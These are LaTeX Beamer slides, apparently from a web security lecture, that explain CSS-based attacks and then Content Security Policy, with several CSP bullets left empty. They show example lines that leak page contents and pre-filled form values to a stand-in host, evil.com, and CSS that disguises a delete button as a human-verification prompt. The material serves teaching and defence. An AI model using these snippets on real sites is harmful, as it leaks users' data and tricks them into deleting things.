 \begin{frame}[fragile]{Aside: why care about stylesheets? (1)}
    \begin{itemize}
    \item historical: IE 7 supported CSS expressions that can construct URLs from webpage data
    \item getting web page contents: 
\begin{Verbatim}[fontsize=\small]
<link rel=stylesheet href="http://evil.com/?webpage contents here...
\end{Verbatim}
    \item also can do things with stylesheets
    \end{itemize}
\end{frame}

\begin{frame}[fragile]{Aside: why care about stylesheets? (2)}
    \begin{itemize}
    \item conditional image loaded to get data? assuming pre-filled-in-form: 
    \end{itemize}
\begin{Verbatim}[fontsize=\fontsize{10}{11}]
input[value^=Virginia] {background: url(http://evil.com?Virginia)}
\end{Verbatim}
    \begin{itemize}
    \item adjust webpage display in lots of ways
    \end{itemize}
\begin{Verbatim}[fontsize=\fontsize{10}{11}]
.delete-form::before {content: "Please verify that you are human: ";}
button.cancel { display: none };
button.delete { font-size: 0pt; }
button.delete::before { content: "I am Human!"; font-size: 16pt; }
\end{Verbatim}
\end{frame}

\begin{frame}{Content Security Policy examples (1)}
    \begin{itemize} 
        \item {}
        \begin{itemize}
            \item allow scripts from same host or \texttt{www.google-analytics.com}
            \item {}
            \item disallow plugins
        \end{itemize}
    \item {}
        \begin{itemize}
            \item allow nothing to start; then whitelist what is needed
            \item recommended strategy
        \end{itemize}
    \end{itemize}
\end{frame}

